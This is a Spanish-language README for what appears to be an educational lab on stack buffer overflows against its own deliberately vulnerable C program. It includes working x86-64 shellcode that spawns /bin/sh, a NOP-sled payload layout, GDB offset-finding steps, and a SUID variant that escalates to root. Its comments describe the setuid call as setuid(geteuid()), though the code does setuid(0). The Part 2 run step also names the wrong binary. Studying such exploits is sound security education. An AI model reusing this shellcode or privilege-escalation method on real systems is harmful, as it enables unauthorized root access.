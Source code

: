 # Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.

---

## Parte 1: Ejecución de shell local

### Análisis del binario vulnerable

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}
```

La vulnerabilidad está en el uso de `strcpy`, que copia sin verificar tamaño.

Esto permite que un atacante sobrescriba la dirección de retorno (`rip`) en la pila
al introducir más de 64 bytes, redirigiendo el flujo de ejecución hacia código 
arbitrario como una shellcode.

---

### Cálculo del offset

Para determinar el desplazamiento hasta `rip`, iniciamos GDB:

```bash
gdb ./vulnerable
```

Y colocamos un breakpoint justo después del `strcpy` y ejecutamos con diferentes longitudes (mayor que 64 y multiplo de 8) hasta dar con la que sobreescriba el `rip`, en este caso es 80:

```bash
(gdb) b *main+36
(gdb) run $(python3 -c 'print("A"*80)')
```

Cuando el programa se detenga, usamos el siguiente comando para ver el contenido del `rip`:

```bash
(gdb) info frame
```

Veremos `rip = 0x4141414141414141`, lo que indica que las 'A' lo han sobrescrito.
Así confirmamos que el offset es de 72 bytes (80 - 8 de dirección de retorno).

Tambien se puede visualizar la pila con:

```bash
(gdb) x/20x $rsp + 16
0x7fffffffef7d: 41414141 ...
```

---

### Dirección de retorno al buffer

Para ejecutar shellcode, debemos redirigir el flujo a la dirección del buffer.
Es importante obtener esta dirección desde `gdb ./exploit` y no desde `gdb ./vulnerable`.
La direccion en memoria reservada es diferente dependiendo de qué fichero se ejecute y nosotros vamos a ejecutar `./exploit`.

```bash
gdb ./exploit
```

Coloca breakpoints al inicio del código para inspeccionarlo y ejecútalo:

```bash
(gdb) b main
(gdb) r
```

Luego, avanza paso a paso con `next` (`n`) hasta entrar en la ejecución de `vulnerable.c`, donde tendrás otro breakpoint por comenzar el `main` de ese programa.

En ese punto deberías de comprobar que se han pasado 2 argumentos. El segundo argumento muestra la direccion de inicio del buffer:

```bash
(gdb) print argc
$1 = 2
(gdb) print argv[1]
$2 = 0x7fffffffef7d ...
```

Usaremos esa dirección como la nueva dirección de retorno al final del payload.

---

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`.
El formato hexadecimal se ha obtenido transformándo el codigo ensamblador `exploit.asm` de la siguiente manera:

```bash
nasm -f elf64 exploit.asm -o exploit_shellcode.o
ld exploit_shellcode.o -o exploit_shellcode
objdump -d exploit_shellcode | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Estructura del payload

El payload está compuesto por:

1. NOP sled: una secuencia de bytes `\x90` para aumentar tolerancia al salto.
2. Shellcode: las instrucciones que ejecutan `/bin/sh`.
3. Dirección de retorno: apunta al NOP sled o directamente al shellcode.

Esta estructura es robusta, ya que incluso si el salto no es exacto,
caerá en la zona NOP y terminará ejecutando la shellcode igualmente.

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit exploit.c
```

---

### Ejecucion

```bash
./exploit
$
```

A partir de ahora, tenemos acceso a una terminal de la victima, que se puede comprobar haciendo:

```bash
$ whoami
user
```

---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable
```

---

### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`.
Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.
Para obtener el formato hexadecimal se ha seguido el mismo proceso anterior, pero con el fichero `exploit_suid.asm`:

```bash
nasm -f elf64 exploit_suid.asm -o exploit_shellcode_suid.o
ld exploit_shellcode_suid.o -o exploit_shellcode_suid
objdump -d exploit_shellcode_suid | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL)         // Ya utilizada en la parte 1
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit_suid exploit_suid.c
```

---

### Ejecución

```bash
./exploit
#
```

A partir de ahora tenemos acceso a una terminal de la victima con permisos de root, que se puede comprobar haciendo:

```bash
# whoami
root
```

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)
